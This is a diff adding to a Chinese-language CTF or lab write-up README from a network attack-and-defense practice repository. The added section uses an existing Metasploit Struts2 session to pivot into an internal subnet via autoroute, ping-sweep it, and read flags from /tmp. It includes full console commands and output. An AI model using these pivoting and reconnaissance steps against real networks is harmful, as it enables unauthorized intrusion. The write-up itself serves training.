

Before and after one commit to Xuyan-cmd/Network-security-attack-and-defense-practice, a Markdown page: README.md, the part around the change printed below. Shown: that part at 86% size. Rendered like a GitHub page; pictures changed too: img/route.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -552,4 +583,63 @@ msf6 >
 
+msf6 exploit(multi/http/struts2_multi_eval_ognl) >
+```
+
+此时使用2号会话的meterperter就可以直接查看外层主机的网卡信息了，于是便获得了一个新的内网网段`192.171.84.0/24`：
+
+![screenShot](../hoshi/img/2023-07-26-174733.png)
+
+当然最主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中
+
+![route](img/route.png)
+
+之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：
+
+```shell
+msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep
+
+Matching Modules
+================
+   #  Name                          Disclosure Date  Rank    Check  Description
+   -  ----                          ---------------  ----    -----  -----------
+   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep
+
+Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep
+
+msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
+msf6 post(multi/gather/ping_sweep) > options
+
+Module options (post/multi/gather/ping_sweep):
+
+   Name     Current Setting  Required  Description
+   ----     ---------------  --------  -----------
+   RHOSTS                    yes       IP Range to perform ping sweep against.
+   SESSION                   yes       The session to run this module on
+
+View the full module info with the info, or info -d command.
+
+msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
+rhosts => 192.171.84.2-254
+msf6 post(multi/gather/ping_sweep) > set session 2
+session => 2
+msf6 post(multi/gather/ping_sweep) > run
+
+[*] Performing ping sweep for IP range 192.171.84.2-254
+[+]     192.171.84.5 host found
+[+]     192.171.84.3 host found
+[+]     192.171.84.4 host found
+[+]     192.171.84.2 host found
+[*] Post module execution completed
+msf6 post(multi/gather/ping_sweep) >
+```
+
+进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`
+
+```bash
+# get flag2-4
+$ sessions -c "ls /tmp" -i 6,7,8
+```
+
+<img src="img/flag2-4.png" alt="flag2-4" style="zoom:50%;" />
 
 
 
````
Also changed, not shown: other parts of README.md (+35 -4 lines).
